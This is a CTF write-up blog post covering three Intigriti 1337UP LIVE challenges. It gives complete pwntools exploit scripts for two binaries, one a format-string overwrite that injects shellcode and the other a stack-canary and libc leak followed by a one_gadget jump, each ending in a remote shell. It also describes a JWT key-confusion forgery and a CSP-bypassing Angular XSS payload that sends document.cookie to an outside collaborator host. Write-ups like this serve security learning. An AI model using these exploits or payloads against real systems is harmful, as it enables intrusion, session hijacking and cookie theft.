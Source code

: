 ```yaml
---
title: 'Intigriti 1337UP LIVE CTF'
description: My write-ups for the Intigriti 1337UP LIVE, finished in 1st place with team WreckTheLine
layout: "post.ejs"
date: 2022-03-14T00:00:00Z
---
```


We participated in the Intigriti 1337UP LIVE CTF as team WreckTheLine, in the end our team was formed only by the web players in our team because of the team size limit. 

We managed to get first place! [I even got a certificate to prove that.](/assets/images/posts/intigritiadragos.png)

![Intigriti1337UPLIVEResult](/assets/images/posts/intigriti1337uplivectf.png)

I solved a lot of challenges, but some were very easy so I'm not going to write about them.

Writeups:
* [cake - pwn](#cake)
* [bird - pwn](#bird)
* [ContactAlex - web](#contactalex)

<a name="cake"></a>
# cake - pwn

Format string bug + RWX stack. This is a nice case where we can use pwntools' FmtStr in order to quickly solve the challenge.

```python
from pwn import *
import time

context.clear(arch = 'amd64')

def exec_fmt(payload):
    p = process('./cake')
    p.sendline(b'2')
    p.sendline(payload)
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

#p = process('./cake')
p = remote('cake.ctf.intigriti.io', 9999)

payload = fmtstr_payload(offset, {0x602018: 0x400A33})

open('payload', 'wb').write(b'2\n'+payload+b'\n3\n')

p.sendline('2')
p.sendline(payload)
p.sendline('3')

p.sendline('2')

#start = 71
#p.sendline(b' '.join(b'%' + str(i).encode() + b'$p' for i in range(start, start + 10)))

# Leak stack value
p.sendline(b'%70$p')
p.sendline('3')

p.recvuntil(b'0x')
r = p.recvline()
stack_addr = int(r,16)

shellcode = asm(shellcraft.sh())

for i in range(0, len(shellcode), 4):
    payload = fmtstr_payload(offset, {stack_addr+i: shellcode[i:i+4]})

    p.sendline('2')
    p.sendline(payload)
    p.sendline('3')


payload = fmtstr_payload(offset, {0x602018: stack_addr})
p.sendline('2')
p.sendline(payload)
# p.sendline('3')

p.interactive()
```

<a name="bird"></a>
# bird - pwn

Simple FSB to leak the stack cookie and libc, then use one_gadget to get a shell

```python
from pwn import *
import time

#sh = process('./bird')
#context.terminal = ['tmux','splitw','-h']

sh = remote('bird.ctf.intigriti.io', 7777)

payload = b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 %63$p %59$p'

sh.sendline(payload)

first_leak = sh.recvuntil(b'Did you hear the bird').split(b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 ')[1]

libc_start_main = int(first_leak.split(b' ')[0][2:], 16)
stack_cookie = int(first_leak.split(b' ')[1].split(b'\n')[0][2:], 16)

print(hex(libc_start_main))
print(hex(stack_cookie))

main_offset = 0x21BF7

one_gadget = 0x4f432

libc_base = libc_start_main - main_offset

print(hex(libc_base))

og = libc_base + one_gadget

payload = b'A' * 88 + p64(stack_cookie) + p64(0x602070) + p64(og) + b'\x00' * 120

sh.sendline(payload)

"""
gdb.attach(sh, '''
''')
"""

sh.interactive()
```

<a name="contactalex"></a>
# ContactAlex - web

First we need to craft a JWT cookie that has the username Alex. As it turns out the source code is vulnerable to this: 

[https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555](https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555)

So we just get 2 JWTs which are generated by the application and then we can retrieve the Public Key. With that we can trick the JWT parser to use HS256 instead of RS256 and it will use the public key as the key. With [https://token.dev/](https://token.dev/) we can quickly forge a JWT.

Next we have XSS, which should be easy, but the CSP made this harder.

```
Content-Security-Policy: default-src 'self'; img-src 'self' data:; style-src 'nonce-5eccb9953787c4de8452048da55d8430'; font-src https://fonts.googleapis.com/ https://fonts.gstatic.com/; object-src 'none'; base-uri 'none'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/;
```

As it turns out, you can bypass CSP if https://cdnjs.cloudflare.com is whitelisted. We can then use Angular in order to get XSS.

Final payload:
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/..%2f..%2fangular.js/1.6.0/angular.js" /></script>

<body ng-app ng-csp>

<input autofocus ng-focus="$event.path|orderBy:'top.location.href=&#x22;//otlv0l5ql6fm6m1a6lz40uact3zunj.burpcollaborator.net/&#x22;+document.cookie'">

</body>
```